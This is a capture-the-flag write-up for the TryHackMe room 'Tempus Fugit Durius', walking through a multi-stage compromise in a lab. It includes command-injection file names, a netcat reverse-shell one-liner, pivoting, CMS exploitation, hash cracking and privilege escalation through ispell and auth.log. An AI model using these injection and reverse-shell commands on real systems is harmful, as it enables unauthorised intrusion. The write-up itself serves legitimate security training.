 # Tempus Fugit Durius

https://tryhackme.com/room/tempusfugitdurius

Rated HARD

Bit of a tricky room, with multiple stages.

1. A site is exposed on port 80, with a upload function. The file name is vulnerable to limited RCE (e.g. use burp to change file name to `t.txt;ls -la`) which if nothing goes wrong will feed the response into the message on the following page. With this limited recon can be performed, including reading the sites code.

2. This reveals a limit of 30 characters, and the presence of .txt or .rtf somewhere in the name. This can be abused to establish a netcat connection, e.g. with `t.txt;nc 168462808 44 -e sh`. Note that the ip address of the attack box is converted to its decimal representation (which still works) to reduce character count.

3. On the machine, its obviously a docker container with limited access. However, in /etc/resolv.conf there is an entry for 'mofo.pwn'. This is also referenced in the site folder, where files you upload are sent to 'ftp.mofo.pwn'. Dig is on the machine, and via that you can run `dig axfr mofo.pwn` to get a set of IP addresses.

4. Of these, the ftp IP address is useful (192.168.150.12) and the IP address for a CMS (192.168.150.1). By establishing a proxy forward through this docker container (via chisel, meterpreter, reverse_ssh or whatever) the website on .1 is the Batflat CMS, which has a known authenticated exploit here: https://www.exploit-db.com/exploits/49573

5. The FTP server can either be accessed from the box using the python ftp library, or via the attack box with proxychains. If doing the latter, after connecting to the server (using the credentials from the website code), use the `passive` command to get around the bind port not work over a proxy. On the ftp server is a creds.txt file that contains the admin creds for the batflat CMS instance.

6. With these creds and teh exploit from 4, you can get a reverse shell on the final machine.

At this point its quickest to go straight to root, but if one chooses its also possible to get the user flag first by switching from www-data to the benclover user. This is done by getting the password out of the sqlite database.sdb file the CMS is using, and bruteforcing the hash (-m 3200) with hashcat. This reveals ben's password and you can su to that user.

To privesc to root is possible from benclover OR the www-data user, and involves the SGUID binary on the machine `ispell`, a spellchecker. https://gtfobins.github.io/gtfobins/ispell/ shows how to escape ispell, but you will only have the `adm` group privileges. However, this is enough to access `/var/log/auth.log`, which contains within it a mistype event involving a password string. This is the password for the root account.
